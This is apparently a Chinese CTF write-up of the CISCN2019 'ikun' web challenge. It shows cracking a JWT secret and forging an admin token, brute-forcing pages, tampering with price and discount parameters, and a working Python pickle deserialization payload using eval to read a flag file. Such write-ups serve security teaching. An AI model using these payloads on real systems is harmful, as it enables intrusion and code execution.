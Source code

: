 # \[CISCN2019 华北赛区 Day1 Web2]ikun

## \[CISCN2019 华北赛区 Day1 Web2]ikun

## 考点

* JWT
* 逻辑漏洞
* tornado代码审计
* pickle反序列化

## wp

注册登录，提示剩余金额1000，并且在cookie中有JWT字段

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhYWEifQ.bJejEdbt0h9U-vvnfoUAF7JFOPy0o6LqHQnITMhYL2I
```

在[jwt.io](https://jwt.io/)上看一下，提示需要密钥

![](<../../.gitbook/assets/image (13) (1) (1) (1).png>)

可以使用[`jwtcrack`](https://github.com/brendan-rius/c-jwt-cracker)破解密钥，结果是1Kun，username改成admin，重新生成JWT

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

回到个人中心，可以看到提示

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

```
>>> s='\\u8fd9\\u7f51\\u7ad9\\u4e0d\\u4ec5\\u53ef\\u4ee5\\u4ee5\\u8585\\u7f8a\\u6bdb\\uff0c\\u6211\\u8fd8\\u7559\\u4e86\\u4e2a\\u540e\\u95e8\\uff0c\\u5c31\\u85cf\\u5728\\u006c\\u0076\\u0036\\u91cc'
>>> s.encode('utf8').decode('unicode_escape')
'这网站不仅可以以薅羊毛，我还留了个后门，就藏在lv6里'
```

然后找lv6在哪儿，写爬虫爆破，在181页

```php
import requests

url = 'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page=2'

for i in range(1,999999):
    url = f'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page={str(i)}'
    r = requests.get(url)
    if '/static/img/lv/lv6' in r.text:
        print(url)
        break
```

![](<../../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png>)

给的钱不够，应该是个逻辑漏洞，抓包看看，在结算的时候，有个折扣的参数，这里是打了8折

![](<../../.gitbook/assets/image (9) (1) (1) (1).png>)

把price和discount都改成很低，看到返回了一个地址：`/b1g_m4mber`

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png>)

直接访问可以看到提示，给了源码

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png>)

`static/asd1f654e683wq/www.zip`下载源码，直接找路由吧，在`sshop/views/__init__.py`文件下

```python
handlers = [
    (r'/', ShopIndexHandler),
    (r'/shop', ShopListHandler),
    (r'/info/(\d+)', ShopDetailHandler),
    (r'/shopcar', ShopCarHandler),
    (r'/shopcar/add', ShopCarAddHandler),
    (r'/pay', ShopPayHandler),
    (r'/user', UserInfoHandler),
    (r'/user/change', changePasswordHandler),
    (r'/pass/reset', ResetPasswordHanlder),
    (r'/login', UserLoginHanlder),
    (r'/logout', UserLogoutHandler),
    (r'/register', RegisterHandler),
    (r'/b1g_m4mber', AdminHandler)
]
```

发现在`AdminHandler`中调用了`pickle.loads`，由此切入

```php
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

`pickle.loads`把字符串转换成对象，`get_argument`用于获取GET或POST的参数，`urllib.unquote`是python2的用法，然后就可以构造pickle反序列化了

```python
# python2
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

得到结果

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

回到`/b1g_m4mber`，把输入框的`hidden`删掉

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

提交payload

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png>)

结果

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1).png>)

## 小结

1. 破解JWT的密钥可以使用[jwtcrack](https://github.com/brendan-rius/c-jwt-cracker)，在kali中使用
